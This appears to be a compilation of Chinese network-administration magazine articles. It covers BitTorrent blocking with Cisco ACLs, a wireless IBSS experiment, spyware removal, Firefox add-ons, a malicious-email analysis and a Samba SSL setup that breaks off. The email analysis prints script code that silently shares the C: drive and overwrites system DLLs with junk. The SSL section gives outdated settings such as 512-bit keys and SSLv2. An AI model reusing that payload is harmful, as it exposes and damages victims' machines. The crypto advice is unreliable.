BT 下载流量具有很大的侵略性。为了更有效率地交换文件，BT 下载程序在启动时会建立数量巨大的连接，这些连接会使得网络流量突然迸发，进而在相当一段时间内维持很大的网络流量。这种情况会带来很严重的问题，在校园网络中，BT 下载不是唯一的应用程序，其他关键应用同样运行在这个网络上，并且使用了同一个广域网出口。

校园关键业务，如网络办公系统、远程教育系统、视频点播系统等等，这些应用会和 BT 下载共享校园的网络带宽，而这些业务系统通常都是对响应时间要求很高的。在 BT 下载运行时，操作人员会明显地感觉到这些业务系统反应变慢，甚至没有反应。其他对响应时间要求不是很高的应用，如电子邮件、数据备份、数据库数据同步等等，也很容易遭受到带宽的威胁。

## BT对校园网产生的影响

### 1．BT下载增加了校园网络流量

当校园内的用户开始使用 BT 下载，入站的流量就会从互联网经过广域网入口到达校园内部网。用户通常使用 BT 下载大量的多媒体文件，包括 MP3 格式的音频文件、CD 镜像、压缩的电影文件，以及光盘镜像（ISO）、大型软件。这些文件小则 4—5MB，大则 600—700MB，甚至 1GB，全部数据均通过广域网出口流入。大量的 BT 下载必然造成很大的入站流量。

根据 BT 的原理可以知道，使用 BT 下载的主机同时也充当了上传的服务器。不管使用 BT 的用户是否知道这个原理，BT 下载带来了大量的出站流量。另外，在下载的任务结束之后，执行 BT 下载的主机将作为一个种子（Seed），将已经下载完成的文件提供给其他的 BT 用户使用。此时，网络流量基本上都是出站流量。这些流量会和其他的应用争夺有限的广域网出口出站带宽资源，增加了校园网络的负担。

### 2．改变了校园网络流量构成

BitTorrent（简称 BT，俗称 BT 下载、变态下载）是一个……

## BT下载的“堵”与“疏”

每个校园网络的管理者对管理的网络都有不同的理解，因此，对于 BT 下载的控制方式也不尽相同。但归根结底无非是两种做法：一是“堵”，即通过技术手法隔离 BT，杜绝一切 BT 流量；二是“疏”，即在特定的范围、时间内可以使用 BT，允许流量通过，满足大家的需求。

### 1．封隔BT流量

- 1）限制浏览 BT 网站

BT 网站很多，但考虑到 BT 下载的特点：下载的人数越多，速度越快；Seed 越多，速度越快。只有比较热门 BT 网站的 Torrent 文件下载的人才会比较多，一般的 BT 网站去的人就比较少，下载的人数也少，几 K 的速度。因此针对比较热门的 BT 网站，获得服务器地址后就可以到核心服务器上对该地址进行封锁。以 Cisco 设备为例，具体命令为：

```text
access-list 102 deny tcp any 202.103.9.83 0.0.0.0
```

这种方法使用 access-list 命令来控制，实现起来比较容易。但由于 BT 网站比较多而且层出不穷，因而 access-list 命令的条数会因为 BT 服务器的数量增加而增加，随着 access-list 命令条数的增多路由器的负荷也随之增加。从实际操作上来看，BT 的种子网站众多，而且无需固定的服务器，要想监控，难度也很大，技术上难以实现。

- 2）封闭 BT 下载端口

解决 BT 对局域网的危害，最彻底的方法是不允许进行 BT 下载。BT 一般使用 TCP 的 6881～6889 端口，网络管理员可以根据网络流量的变化进行判断，在网关中将特定的种子发布站点和端口封掉，在 BT 下载软件中的 Track 中可以获得这些信息。但是现在大多数 BT 软件可以修改端口号，因此网管可以根据实际情况，利用访问控制列表在不影响正常业务的情况下尽可能将封闭的端口范围扩大，把一些特定的种子发布站点和端口进行封闭。以 Cisco 设备为例，具体命令为：

```text
access-list 101 deny tcp any any range 6880 6890
access-list 101 deny tcp any range 6880 6890 any
access-list 101 permit ip any any
```

接着进入相应的端口，输入“ip access-group 101 out”使访问控制列表生效。配置之后，网络带宽就会马上释放出来，网络速度得到提升。这种方法也使用 access-list 命令来控制，实现起来比较容易。但是由于 BT 可以自由变换端口，这样一来势必要封堵大量的端口，封闭了端口必然影响了网络的应用。

- 3）加载 PDLM 模块

使用 Cisco 公司出品的 PDLM 模块可以省去我们配置路由策略的工作，封锁效果非常好。上文介绍的两种方法，一个是对数据包的目的地址进行封锁，一个是对数据包使用的端口进行封锁，虽然在一定范围内有效，但不能起到全面禁止 BT 的作用。通过 PDLM+NBAR 的方法来封锁 BT 就不存在这个问题了。

Cisco 在其官方网站提供了三个 PDLM 模块，分别为 KAZAA2.pdlm、bittorrent.pdlm、emonkey.pdlm，可以用来封锁 KAZAA、BT、电驴。在此我们就封锁 BT 下载为例，建立一个 TFTP 站点，将 bittorrent.pdlm 复制到该站点，在核心路由器中使用“ip nbar pdlm tftp://TFTP 站点的IP/bittorrent.pdlm”命令加载 bittorrent.pdlm 模块。

接下来设置路由策略，具体命令如下：

```text
class-map match-any bit
// 创建一个 CLASS-MAP 名为 BIT
match protocol bittorrent
// 要求符合模块 bittorrent 的标准
policy-map limit-bit
// 创建一个 POLICY-MAP 名为 LIMIT-BIT
class bit
// 要求符合刚才定义的名为 BIT 的 CLASS-MAP
drop
// 如果符合则丢数据包
interface gigabitethernet0/2
// 进入网络出口那个接口
service-policy input limit-bit
// 当有数据包进入时启用 LIMIT-BIT 路由策略
service-policy output limit-bit
// 当有数据包出去的时候启用 LIMIT-BIT 路由策略
```

如果不想每次启动路由器都要手工加载 TFTP 上的 bittorrent.pdlm，可以把这个 PDLM 文件上传到路由器的 FLASH 中，然后选择 TFTP 服务器的 IP 地址即可。值得提醒大家的是封锁 KAZAA 或者 EDONKEY 时，在路由器配置中将“match protocol”后的 bittorrent 替换为 KAZAA2 或者 EDONKEY 即可。其他配置和封锁 BT 一样。通过 NBAR 加载 PDLM 模块达到封锁 BT 软件后，已经完全断绝了 BT 流量，网络速度也恢复到以前的稳定值了。

- 4）使用 HTTP 代理对应用层协议进行过滤

当 BT 客户端下载时，必须进行 Tracker 查询，Tracker 通过 HTTP 的 GET 命令的参数来接收信息，而响应给对方（下载者）的是 Bencoded 编码的消息。在 HTTP 请求报文中，携带了 BT 的特征值 User-Agent: BitTorrent。

网络管理员针对该情况，可以通过一些安全管理设备以及流量管理设备，甚至网络管理系统软件，过滤特定的应用层数据包（如 HTTP 数据包），然后根据 BT 数据包中的关键字（BitTorrent），从 HTTP 数据包中过滤 BT 数据包。

### 2．疏通BT流量

- 1．将整体 BT 下载的流量控制在某个范围内（如 1Mbit/s），把其余带宽留给关键业务，防止 BT 下载侵吞大量网络带宽资源。以 Cisco 设备为例，具体命令为：

```text
access-list 130 remark bt
access-list 130 permit tcp any any range 6881 6890
access-list 130 permit tcp any range 6881 6890 any
rate-limit input access-group 130 712000 8000 8000 conform-action transmit exceed-action drop
rate-limit output access-group 130 712000 8000 8000 conform-action transmit exceed-action drop
```

- 2．限制或者禁止在特定时间段内的 BT 下载（如工作时间禁用、非工作时间开放），命令为：

```text
time-range test
periodic daily 20:00 to 23:00
access-list 130 permit tcp any any range 6881 6890 time-range test
access-list 130 permit tcp any range 6881 6890 any time-range test
```

- 3．将校园关键业务划分到专用动态带宽中，BT 下载使用剩余带宽，避免两者竞争。

某些特定校园网会使用 BT 下载提供服务。对于这样的校园网，由于 BT 下载具有很高的侵略性，因此需要使用保护机制来保障其他关键业务的正常运行。网络管理员可以通过一些管理软件或者网络硬件配置，针对应用流进行较细粒度的速率限制，例如将 BT 用户下载的优先级限制为 5（0 最高，7 最低），带宽限制为 64 kbit/s。这样可以确保 BT 软件使用的同时不会影响其他业务的开展，充分保护这些应用。剩余的网络资源可以全部提供给 BT 下载使用。

##### 结束语

最近一段时间里，网络上关于“封杀 BT”问题上的争论，仁者见仁，智者见智。总的来说，BT 是 P2P 技术在解决大容量文件的问题上的一种很好的解决方案，它代表着网络发展的一种趋势，是网络资源共享的一种倾向。至于如何对待，在不同的单位、不同的场合应该视具体情况具体分析，封杀不是唯一的办法，更不是最终的解决方案。

刘流：黑迷们是不是经常听说一些关于无线网络的渗透与攻击？先来了解一下此类攻击的一些环境和架构吧。另外，网管之家栏目也非常欢迎此类稿件，希望大家多多讨论。

- 适合读者：网络管理员，系统管理员
- 前置知识：无

## IBSS架构实验

文/图 demonalex

下面的结论均由实验所得，因此难免会有工业上或者人为上的误差，希望各位大侠指出。最后要感谢磁力（wwiingd#freelab.cn 黑防论坛版主）提供设备并与我一起完成下面的实验。IBSS 架构是 802.11 的一种常见的组网拓扑。参考拓扑图如图1所示。

通过上一段的叙述我们简单地了解了 802.11 的主要网络架构有 BSS 与 IBSS 两种（由于 ESS 属于 BSS 的升级，所以就不把它当作一种基本架构看待了）。再简单一点，我们可以把 BSS 和 IBSS 理解为有线网络中的两种双绞线接法……针对上面的问题我做了一些相关的实验，下面就跟大家一起分享一下我实验的结果吧。

图1

目前 802.11 常见的组网拓扑主要有三种：BSS、IBSS、ESS。BSS 是 802.11 的基本架构（也被称为 infrastructure 模式）；IBSS（独立 BSS）是一种没有规划好的网络架构（因此也被称为 Ad Hoc 模式）；ESS（扩展 BSS）是 BSS 的延伸，是以二层桥接/交换的方式连接多个 BSS 的无线网络架构。

首先我想先谈谈 IBSS 的组成。抽象一点，其实 IBSS 的组成可以理解为一场抗议游行。抗议开始时可能只有一个发起人……当有第一个人加入时，这个游行抗议队伍就形成了……然后逐渐有新的成员加入。

个 BSS 架构信号源，这个游行抗议队伍在不断地壮大，其中既有真正想反映问题的人（合法的 STA），也有趁机捣乱的滋事分子（非法登录的 STA），形成一个庞大的游行队伍（一个具有规模的 IBSS）；游行队伍正面地向有关当局反映了情况后开始逐渐散去（完成工作后逐渐有 STA 主动中断连接）；当队伍还剩下两个人的时候这个游行队伍还算是“存在”的（IBSS 架构的信号源还在）；若到最后还有一个人在继续游行活动的话，那么这场抗议游行还不算结束（此时电平信号源还在——回到原来的“发送一个未形成连接的 Ad-Hoc 组网请求”的状态，但 BSS 架构已经不复存在了），当整个游行队伍的参与人数归零时，这次抗议游行活动才真正结束（电平信号完全消失）。

看完上面的“故事”，可以回答问题了吗？IBSS 连接后的数据传输方式是不能理解为一条或几条双绞线的简单通信的，比起来它们更像在一个“空间”之内，至少两个 STA 才能形成这个“空间”；这个“空间”不需要任何设备做二层交换（与 BSS/ESS 不同，不需要 AP、SWITCH 等任何桥接型设备），各 STA 可以在这个“空间”区域内进行点对点的数据传输。在信号源的问题上，从有第一张网卡发出等待连接 Ad-Hoc 组网请求开始直至最后一个等待连接的组网请求消失为止，由始至终都只有一个电平信号源。因为 IBSS 属于对等网，因此最先发起连接请求的 STA 在 IBSS 形成以后与其他的 STA 都是一样的，所以在 IBSS 架构建立（有至少三个 STA）以后是可以直接断网而不会造成 IBSS 电平信号源中断的……如图2所示。

图2

图2中，若你在图2的情况下进行信号搜索，得到的将会是一个 IBSS 架构的信号源，而不是图1或图4情况下的 Ad-Hoc 组网连接请求信号源。关于上述情况，我将一个独立的 IBSS 架构定义为一个“空间”。在这里我补充说明一下，如何锁定一个“空间”呢？要决定一个“空间”，只需要锁定两个元素：SSID 与信号频道。只要确定这两个元素就能够确定一个所谓的“空间”，因此倘若你把两个信号源设置为【相同 SSID 不同信号频道】又或者是【不同 SSID 相同信号频道】，这两个信号源都是不会相互作用的（不推崇把多个信号源设定在同一个信号频道）。

> Ad-Hoc 连接请求信号源与 IBSS 架构信号源有什么不同？发出 Ad-Hoc 连接请求信号源的 STA 代表它在这个覆盖区域内（在使用某个频道、某个特定 SSID 的情况下）只有/只剩下自己一个 STA（此 STA 的网络适配器连接状态反映为“不可用”）；而 IBSS 架构的信号源代表在这个覆盖区域内（在使用某个频道、某个特定 SSID 的情况下）至少有两个或以上的 STA 在连接中（这些 STA 的网络适配器连接状态都反映为“正在连接”）。同一张无线网卡在每一次作为进行发出 Ad-Hoc 连接请求的信号源（请求形成 IBSS 架构的第一个 STA）时所生成的 BSSID 都是不同的。

实验时曾用著名工具 Network Stumbler 对电平信号进行探测，结果发现在 IBSS 环境下使用此工具会对传输中的数据带来严重的闪断现象，如图3所示。

图3

主界面的右边部分有一个电平信号强弱示意图，图中每一个绿色柱体的高度（Y 轴）代表某一时间段（X 轴）接收到该 STA 发出的电平信号源的强弱；绿色柱体之间存在着的“间隙”代表电平信号的阻断，阻断越频繁代表信号越不稳定。从上图中可以看到问题所在了吧？在 BSS 环境下没有这样的问题存在。在安全性的问题上 IBSS 架构明显没有 BSS 成熟，归根究底是由于生产厂商在这方面的意识不足而引起的。就拿目前最常见的 802.11b（Wi‑Fi）为标准来说吧，大伙最担心的还是非法登录的问题……若是 BSS 架构，管理员面对非法登录的问题大多会采取在 AP 部件上采取禁止 AP 的 SSID 广播、使用有线等效协议/WEP、建立 MAC 访问列表这三类解决办法来增强该无线网络的访问控制机制。


图4（停止 SSID 广播）


图5（使用 64 位的 WEP 加密）


图6（启用 MAC 控制访问列表）

接下来进行通信时，若要完成上面的三种访问控制，就必须依赖无线网卡的工作属性进行设置。但试问一下，目前有哪家无线网卡生产商会在自己的无线网卡上附带禁止 SSID 广播与建立 MAC 访问控制列表之类的功能呢？所以目前的 IBSS 只能依靠 WEP 来武装自己了。

再者，当网络管理员需要针对非法的登录行为进行入侵检测时，若是 BSS 架构的话，可以透过目前大多数 AP 都具有的、一个类似于网管交换机所具备的“Attached”功能（用于监视目前有哪些接点正在通过这个设备进行通信）找出非法的登录者，如图7所示。


图7

接着可以通过在 AP 上设置 MAC 控制访问列表，及时把非法登录者“踢下线”；IBSS 管理起来就没有那么方便了。若要确定目前有谁与你处于同一网段并能随时访问到你的机器的话，估计只能使用一些网络扫描器来探测一下了（这里推荐使用 CAIN 的 MAC 地址扫描功能，既快捷又准确）。再者，若要把它们“踢”下线的话估计也不是那么容易，最理想的办法还是使用包过滤功能（建立类似 Windows 安全策略、网络防火墙规则之类的包过滤控制访问列表）来抵御非法登录者对自身的威胁。

最后顺带说说最近经常在 WLAN 里实验的 ARP 攻击（ARP 抑制攻击），BSS 架构目前也不能很好地处理这种攻击；至于 IBSS，可以说是连一点“免疫能力”都没有了。最后，奉劝一句：“好好地 protect 你的 IBSS 网络吧，God bless u”。

适合读者：入侵爱好者，系统管理员

前置知识：无


#### 俄罗斯间谍病毒 BCUP 选择问题

文／图 Ken

几天前在调用任务管理器结束进程的时候，一个名字为“bcup.exe”的进程引起了我的关注。用“msconfig”命令将其启动项去掉后，重新启动后此进程不再有，但是一用 IE 打开网页后便又激活此程序，如图1所示。

用 Google 搜索了一下，找了些关于“bcup.exe”的相关资料，说：“此进程是一个博彩文摘的插件，强占内存 3.66MB，当人们访问其相关网页时自动下载和安装，用户不能对其安装进行干涉，没有反安装程序进行卸载，而且随着时间的增加，会严重拖慢 IE 速度，最后导致打不开网页，而且会把记录的本地信息传到指定服务器。”对此，博客客服给予的回答是：“这是我们加上去的，自动下载，自动安装，不提供删除。如果要删除，请到论坛中去看帮助。”另外他们还坚持“软件中绝不含有非法代码”，并给了相关的解决办法：“1. 关闭所有 IE。2. 使用任务管理器删除 BCUP.exe 进程。3. 打开运行，执行 `regsvr32 -u c:\系统目录\BoCaiToolBar.dll`。4. 进入系统目录。5. 删除 BCUP.exe，删除 BoCaiToolBar.dll。6. 打开注册表编辑器，删除 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\BCUpdate` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\BlogChina\BC`。”


对于网上的诸多说法，我还是想谈下自己的实践和看法。我关闭了网页的所有屏蔽软件和病毒防火墙，用一台“干净”的机子访问中国博客和网摘等相关网页时，并没有出现那个插件自动强行安装……

另外一点，也是最重要的一点，博客给出的删除方法是有问题的，所以请大家按照本文提供的方法进行删除。

首先打开“开始”->“运行”，输入 `regsvr32.exe /u c:\WINDOWS\system32\BoCaiToolBar.dll`（不同系统路径略有差异），运行后会有弹出表示注销成功的对话框，如图2所示。


调出任务管理器结束 BCUP.exe 进程。接着到系统目录下删除 `bcup.exe` 和 `bocaitoolbar.dll` 两个文件。最后在注册表中按顺序删除 `BCUpdate`、`BlogChina` 等相关项。操作完成后可清理注册表并重启，即可完成 BCUP 的删除工作。如果此前没有修改过注册表，可先导出备份。

如果出现误操作进不了系统，用启动盘进入 DOS 后可输入 `smartdrv`，再进入 `c:\windows` 目录，键入 `regedit /c regedit.reg` 回车即可恢复。

对于 BCUP 会记录本地信息并发送到远程服务器，作者在安装后通过天网防火墙检测到其与外网建立连接，如图3所示。它采用 TCP 协议 80 端口，并非普通功能所必需。


按照天网给出的连接 IP，使用多个 IP 查询器查询后，结果基本定位在“北京”和“上海”，如图4所示。最终判断该地址与世纪互联数据中心相关。


最后作者回溯发现，BCUP 可能是通过安装 QQ 2005 Beta2 珊瑚虫版 V3.1.5 时一并安装的，如图5所示。并提醒用户安装软件时注意附加组件选项，对无用插件不要勾选安装。


Firefox 经过了无数的改进，现在做得越来越好了，它的功能提升很大程度依靠插件来完成，本文将详细介绍现在 Firefox 常用的插件及功能。

适合读者：Firefox 粉丝，系统管理员

前置知识：无

#### Firefox 插件漫谈


文／图 el_LT

##### 引子

我在去年就用了 Firefox 浏览器。那时候用的原因仅仅是为了能使 Gmail 登录变得更快。后来随着 Gmail 服务器的改善，也就随之弃用。后来因为 IE 占资源实在太厉害了，令我的 P3 733 实在不堪重负，于是寻觅了市面上所有的浏览器，再次使用了 Firefox。但是 Firefox 有一个致命的缺陷就是无法正常使用动网的 BBS，这点让笔者实在无法忍受，所以一直在使用 Maxthon。Maxthon 速度比 IE6 大为改善（期间使用了 IE7 beta，但是 bug 实在太多了，速度偏慢），估计是得益于 Maxthon 的标签浏览方式，所以才不会那么占内存。


但是 Firefox 1.5 RC2 出来以后，我便又对它着迷了，这个浏览器几进几出我的系统，不过这次我算认定它了。

原来的 Firefox 主要是网页兼容性差、占内存多、插件安装麻烦、运行不稳定。但是这次 Firefox 1.5 RC2 真的不同了，不再是以前那个“老”狐狸了。现在的 Firefox 拥有来自台湾的 IE Tab 来使用 IE 内核浏览那些原来不支持 Firefox 的网站，现在就是使用 Windows Update 都不在话下了。强大的扩展功能，以及庞大的插件编写功能，使得 Firefox 日趋完美，速度比起 Opera 还是稍微不足，但是比起 IE、Maxthon 还是没说的。Firefox 扩展的插件已经都可以通过 Firefox 自己来自动升级，无疑这使得 Firefox 这只狐狸能够青春永驻。Firefox 通过网站发行了无数可扩展的主题，这让人们可以根据自己的习惯随时调整 Firefox 的主题，让它成为你眼中最美的一只狐狸。

下面来介绍一下 Firefox 的扩展插件（所有的插件都可以通过 Mozilla Update 中国来下载，http://mozillaupdate.mozine.org/）。

##### 插件

- **IE Tab**：可以用来彻底解决 Firefox 不支持的网页，甚至安装 IE Tab 就可以使用 Microsoft Update，如图1所示。
- **Tab Mix Plus**：小巧的 Tab 浏览扩展，可以提供强大的标签页浏览功能，以满足大多数使用者。安装之后可以在“工具 -> Tab Mix Plus 选项”中设置它的属性，如图2所示。
- **Adblock Plus**：Adblock 可以根据过滤词（支持正则表达式）来阻止显示网页上的广告。推荐和 Adblock Filterset.G Updater 一起使用。  
  Adblock Filterset.G Updater 是 Adblock 的一个伴侣，能直接找到并作用在 Adblock 上。这个扩展每隔 4～7 天，能自动地从 Filterset.G 下载最新的规则。安装之后它会在 Firefox 的右下角显示一个 Adblock 的图标，大家可以点击设置其属性，如图3所示。


- **SuperDragAndGo**：将链接拖拽到网页的任意空白位置，就可以在新标签页中打开此链接，很方便的一个软件。
- **FlashGot**：一个用来关联系统中下载文件的软件，可以关联到你想要的迅雷、FlashGet、影音传送带等下载工具。
- **All-in-One Gestures Extension**：一款鼠标手势扩展，它允许你通过鼠标手势、遥感手势或者滚轮导航来完成对浏览器的各种控制。这是一个强大的鼠标动作支持软件，可以自定义非常多的鼠标动作，并且可以显示鼠标的轨迹。
- **ForecastFox**：常用的天气预报扩展，它调用 www.weather.com 网站提供的天气信息，可以在 Firefox 的界面上提供非常详尽的当前以及未来一段时间的天气数据，包括天气、湿度、紫外线指数、卫星云图等。在 Firefox 中的显示位置可以自定义。经过一段时间的试用以后，发现这是一个很好的软件，可以支持中国很多中小城市，显示出来的天气也相当准确，而且它更新的时间是依据本地时间来更新，在 Firefox 的右下角有着明显的图示，如图5所示。


- **Sage**：一款很好的 RSS 阅读软件，可以自动发掘网页中的 Feed。

##### 结语

HOHO，说了这么多，去试试 Firefox 1.5 RC2 吧！相信你会喜欢上我们这漂亮而富有活力的火狐狸的。

适合读者：网民，系统管理员

前置知识：无

## 注意邮件如何“变身”你的硬盘

文／某文生

近日网络上病毒肆虐，令人防不胜防。我的信箱不知怎么就被列入了几个邮件列表中，每日数量巨大的垃圾邮件接踵而至。通常附件为 doc 和 exe 文件，垃圾邮件来源不断变化，致使每天收信都战战兢兢，好像是在排雷！

> SirCam 和“求职信”都是通过电子邮件来传播进而破坏系统的，并且感染电脑之后能主动关闭许多杀毒软件的运行。

一日，好友来电求救，说机器不能启动。我赶到后发现系统异常，OE 中有封名为“笑林广记笑话集”的邮件无法正常处理。查看该邮件后发现附件 laugh.hta，执行后硬盘灯狂闪、系统异常。

我立即按下三键（Ctrl+Alt+Del），在任务列表中发现异常进程。进一步检查发现 C 盘被共享、关键文件大小被改写。再次打开 OE，直接查看可疑邮件源文件，终于看到了其 HTML/脚本内容。

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML><HEAD>
<META content="text/html; charset=gb2312" http-equiv=Content-Type>
<META content="MSHTML 5.00.2614.3500" name=GENERATOR>
<STYLE></STYLE>
</HEAD>
<BODY bgColor=#c0c0c0>
<DIV align=center><FONT size=4><STRONG>笑林广记笑话集</STRONG></FONT></DIV>
<DIV align=center>...</DIV>
</BODY></HTML>
```


```html
<DIV align=left><FONT size=2>
你好，我们是笑炉广告笑话网，这里有无聊的 XXX 级笑话，绝对笑死你。欢迎访问！
<A href=http://www.sexlaugh.com.cn>http://www.sexlaugh.com.cn</A>
</FONT></DIV>
<script language=JavaScript>
function f_() { // 改写注册表的函数
  var aa, ss;
  aa=document.applets[0];
  aa.setCLSID('{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}');
  aa.createInstance();
  ss=aa.GetObject();
  ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Flags",302,"REG_DWORD");
  ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Type",0,"REG_DWORD");
  ss.RegWrite("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\C$\\Path","C:\\");
}
function init(){
  setTimeout("f_()",1000); // 每过1000毫秒就再次递归调用 f_()
}
init();
</script>
</BODY></HTML>
```

```vb
aa.RegWrite "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\$\\Path", dir1
Set Os = CreateObject("Scriptlet.TypeLib")
doc = "Hi" "Hello" "How are you?" "Can you help me?" "We want peace" ...

' 一堆垃圾码，以备写入目标文件
Os.Reset
Os.Path = "C:\\..."
Os.Doc = doc
Os.Write()
while true
  aa=aa+1
  Os.Reset
  Os.Path = dir2 & "\\Msvbvm???.dll"
  Os.Doc = doc&doc&doc&doc&...   ' 大量重复
  Os.Write()
wend
```

这封邮件利用了 MS.ActiveX 元件的写注册表功能。只要一读这封信，它就会在注册表的 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan` 中添加一个键值 `C$`，并且将 C 盘改为完全共享。这样黑客可以用 SMB 扫描器直接登录主机 C 盘，在硬盘中随意拷贝、删除、添加文件，甚至上传木马，形成完全控制。

再来看附件 Laugh.hta。查看“文件类型”发现 `.hta` 后缀其实是 HTML Application 文件，可由 `mshta.exe` 解释执行。它和 WSH/VBS 一样属于文本脚本，可导出为 txt 查看代码。

```vbscript
<html>
<script language=vbs>
On Error Resume Next
set aa=CreateObject("WScript.Shell")
Set fs = CreateObject("Scripting.FileSystemObject")
Set dir1 = fs.GetSpecialFolder(0)   ' Windows 路径
Set dir2 = fs.GetSpecialFolder(1)   ' System 路径
dir1=dir1+"\\START MENU\\PROGRAMS\\启动"
aa.RegWrite "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\$\\Flags",302,"REG_DWORD"
aa.RegWrite "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\$\\Type",0,"REG_DWORD"
```

没想到 hta 文件的权限比 HTML 更大，可以调用 `FileSystemObject` 元件。病毒先定位 Windows 目录和 System 目录，再修改注册表把启动目录设置为完全共享，便于黑客搜索并上传后门/木马。随后把目标对准 System 目录，反复复制垃圾内容，生成形如 `Msvbvm???.dll` 的文件，造成系统与 VB 程序异常。

7. 提示找不到 DLL 文件——因为 `Msvbvm50.dll` 和 `Msvbvm60.dll` 被垃圾文件覆盖了。我马上查看了一下 Windows 目录，竟然有 648MB 之大，垃圾文件成山……最后把 `lo.sys` 再次覆盖一遍，OK！

防备方法：将 ActiveX 元件、Java 脚本和 VBS 脚本等全部禁止就可以避免。具体方法：在 Internet Explorer 菜单中点击“工具”->“Internet 选项”->“安全”标签->“自定义级别”->“安全设置”对话框，把其中所有 ActiveX 控件以及 Java 和 VBS 脚本相关全部选择“禁用”即可……另外还有 Lockdown2000 Professional 也不错。

**刘流：** SSL/TLS 连接是应用在互联网上的加密传输协议，现在也可以用到局域网了……本文由中科院郭东美所写，从流程上详细阐述了如何在网上邻居中实现这种加密传输。

- 适合读者：网络爱好者
- 前置知识：编程基础

#### 让网上邻居支持 SSL/TLS 安全传输

文/图 中科院安全加密研究所 郭东美


##### 网上邻居网络传输安全隐患堪忧

在 Windows 98 RC1 版本之前的 SMB 协议传输认证过程中，口令都是明文传送的，如图1所示。更不要说是数据了，因此这样的访问，用简单的 Sniffer 就能俘获……Windows 2000 以后的版本虽然支持本地安全策略，但因其配置烦琐……


##### 网上邻居协议及其原理介绍

Windows 网上邻居是基于 SMB 协议（Server Message Block）进行通信、传输的协议，是一个用于不同计算机之间共享文件、打印机、串行口和通信抽象（命名管道、邮件插槽等）的协议。

在 SMB 协议中，计算机为了访问网络资源，需要了解网络上存在的资源列表……Browser 并不是事先指定的计算机，而是在普通计算机之间通过自动推荐产生的。网络中常常存在多个 Browser，一个为主 Browser（Master Browser），其他为备份 Browser。

##### SSL/TLS 的介绍

因为安全加密传输可以应用到所有网络应用中，所以在此先详细介绍一下：Secure Socket Layer（SSL）协议最初由 Netscape 推广……IETF 将 SSL 作了标准化，即 RFC2246，并将其称为 TLS（Transport Layer Security）。从技术上讲，TLS 1.0 与 SSL 3.0 的差别非常小，可以认为是等价的。

在 WAP 环境下，由于手机及手持设备的处理和存储能力有限，WAP 论坛（www.wapforum.org）在 TLS 的基础上做了 WTLS 协议（Wireless Transport Layer Security），以适应无线的特殊环境。

SSL 层借助下层协议的信道安全地协商出一份加密密钥，并用此密钥来加密应用请求。

SSL 协议分为两部分：Handshake Protocol 用来协商密钥，协议的大部分内容就是通信双方如何利用它来安全地协商出一份密钥；Record Protocol 则定义了传输的格式。

加密一般分为三类：对称加密、非对称加密及单向散列函数。

对称加密又分分组密码和序列密码。分组密码是将明文按一定的位长分组，明文组经过加密运算得到密文组，密文组经过解密运算（加密运算的逆运算），还原成明文组。序列密码是指利用少量的密钥（致乱元素）通过某种复杂的运算（密码）算法产生大量的伪随机位流，用于对明文位流的加密。

解密是指用同样的密钥和密码算法及与加密相同的伪随机位流，用以还原明文位流。

CBC（Cipher Block Chaining）模式这个词在分组密码中经常会用到，它是指一个明文分组在被加密之前要与前一个密文分组进行异或运算。当加密算法用于此模式的时候，除密钥外，还需协商一个初始化向量（IV）。这个 IV 没有实际意义，只是在第一次计算的时候需要用到而已。采用这种模式的话安全性会有所提高。

> 分组密码的典型例子为 DES、RC5、IDEA。  
> 序列密码的典型例子为 RC4。

公钥加密：简单地说就是加密密钥与解密密钥不同，分私钥和公钥。这种方法大多用于密钥交换，RSA 便是一个我们熟知的例子。

还有一个常用的称作 DH，它只能用于密钥交换，不能用来加密。

单向散列函数：由于信息本身的干扰和人为的破坏，接收到的信息可能与原来发出的信息不同。一个通用的办法就是加入校验码。单向散列函数便可用于此用途，一个典型的例子是我们熟知的 MD5；它产生 128 位的摘要，在现实中用得更多的是安全散列算法（SHA）。SHA 的早期版本存在问题，目前的实际应用是 SHA-1，它可以产生 160 位的摘要，因此比 128 位散列更能有效抵抗穷举攻击。

由于单向散列的算法都是公开的，所以其他人可以先改动原文，再生成另外一份摘要。解决这个问题的办法可以通过 HMAC（RFC 2104），它包含了一个密钥，只有拥有相同密钥的人才能鉴别这个散列。

密钥协商过程：由于对称加密的速度比较快，所以它一般用于通信加密。双方通过公钥算法协商出一份密钥，然后通过对称加密来通信。当然，为了保证数据的完整性，在加密前要先经过 HMAC 的处理。


SSL 缺省只进行 server 端的认证，客户端的认证是可选的。SSL 客户端（也是 TCP 的客户端）在 TCP 连接建立之后，发出包含了自己可实现的算法列表和其他需要的消息，SSL 的服务器端会回应一个 ServerHello，这里面建立了这次通信所需要的算法，然后发过去自己的证书（里面包含公钥）。客户端验证证书后会生成一个秘密消息，用 SSL 服务器的公钥加密后传过去，SSL 服务器端用自己的私钥解密后，会话密钥协商成功，双方可以用同一份会话密钥来通信了。

##### 服务器安全配置过程

这里，我们以 POSIX 系统的 SAMBA 为例，SAMBA 服务器的 IP 地址为 `10.75.1.11`。

- 1. 配置 SAMBA 的 SSL 为 Enable；
- 2. 在 samba 的配置文件中允许 `ssl=yes`，认可 SSL/TLS 传输验证加密；
- 3. 保存退出，建立 key 和证书：

```bash
ssl CA certDir=/usr/local/ssl/certs
ssl CA certFile=/usr/local/ssl/certs/trustedCAs.pem
ssl server cert=/usr/local/ssl/certs/samba.pem
ssl server key=/usr/local/ssl/private/samba.pem
ssl client key=/usr/local/ssl/private/smbclient.pem
ssl client cert=/usr/local/ssl/certs/smbclient.pem
ssl require clientcert=yes
ssl require servercert=yes
ssl version=ssl2or3
ssl compatibility=no

# 建立 key
ssleay genrsa -des3 512 > key.pem

# 如果你不需要 pass phrase
ssleay rsa -in key.pem -out newkey.pem

# 如果需要 pass phrase
ssleay rsa -des3 -in key.pem -out newkey.pem

# 建立证书
